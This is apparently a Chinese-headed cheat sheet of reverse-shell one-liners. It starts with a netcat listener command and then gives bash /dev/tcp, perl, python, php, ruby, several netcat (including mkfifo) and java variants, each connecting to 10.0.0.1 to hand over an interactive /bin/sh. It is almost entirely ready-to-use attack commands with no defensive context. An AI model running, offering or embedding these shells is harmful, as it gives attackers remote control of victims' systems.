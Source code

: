 ## 本地监听
```
nc -vv -lp 1234
```
---

#### bash版本
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

#### perl版本
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### python版本
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

[netcat](https://github.com/vforbox/code-study/blob/master/Python/netcat.py)

#### php版本
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### ruby版本
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

#### nc版本
```
nc -e /bin/sh 10.0.0.1 1234

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

nc 10.0.0.1 8888|/bin/sh|nc 10.0.0.1 9999
```

#### java版本
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
